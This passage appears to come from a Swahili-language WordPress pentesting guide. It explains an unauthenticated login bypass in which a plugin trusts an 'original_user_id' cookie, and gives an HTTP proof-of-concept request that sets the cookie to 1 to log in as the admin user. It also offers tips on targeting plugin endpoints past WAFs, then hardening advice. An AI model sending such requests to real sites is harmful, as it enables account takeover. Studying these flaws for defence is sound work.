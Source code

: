 ```php
}
```
Kwa nini inaweza kutumiwa

- Hook ya umma ya `init` inafanya handler kupatikana kwa unauthenticated users (hakuna `is_user_logged_in()` guard).
- Utambulisho unatokana na cookie inayoweza kubadilishwa na client (`original_user_id`).
- Mwito wa moja kwa moja wa `wp_set_auth_cookie($uid)` unaingia muombaji kama mtumiaji huyo bila ukaguzi wowote wa capability/nonce checks.

Exploitation (unauthenticated)
```http
GET /?switch_back=1 HTTP/1.1
Host: victim.example
Cookie: original_user_id=1
User-Agent: PoC
Connection: close
```
---

### Mambo ya WAF kwa WordPress/plugin CVEs

WAFs za edge/server zimetengenezwa kwa ajili ya mifumo mpana (SQLi, XSS, LFI). Makosa mengi yenye athari kubwa kwenye WordPress/plugin ni hitilafu za mantiki/uthibitisho ndani ya application ambazo zinaonekana kama trafiki isiyo hatari isipokuwa engine itakayofahamu WordPress routes na plugin semantics.

Vidokezo vya Ofensi

- Lenga endpoints maalum za plugin na payloads safi: `admin-ajax.php?action=...`, `wp-json/<namespace>/<route>`, custom file handlers, shortcodes.
- Chunguza njia zisizo za uthibitisho kwanza (AJAX `nopriv`, REST with permissive `permission_callback`, public shortcodes). Default payloads mara nyingi zinafanikiwa bila obfuscation.
- Mifano ya kawaida yenye athari kubwa: privilege escalation (broken access control), arbitrary file upload/download, LFI, open redirect.

Vidokezo vya Ulinzi

- Usitegemee saini za WAF za jumla kulinda plugin CVEs. Tekeleza virtual patches za application-layer zinazolenga udhaifu maalum au sasisha haraka.
- Pendelea positive-security checks ndani ya code (capabilities, nonces, strict input validation) badala ya negative regex filters.

## Ulinzi wa WordPress

### Sasisho za Mara kwa Mara

Hakikisha WordPress, plugins, na themes ziko kwenye toleo la sasa. Pia thibitisha kwamba automated updating imewezeshwa katika wp-config.php:
```bash
define( 'WP_AUTO_UPDATE_CORE', true );
add_filter( 'auto_update_plugin', '__return_true' );
add_filter( 'auto_update_theme', '__return_true' );
```
Pia, **weka tu WordPress plugins na themes zinazoweza kuaminika**.
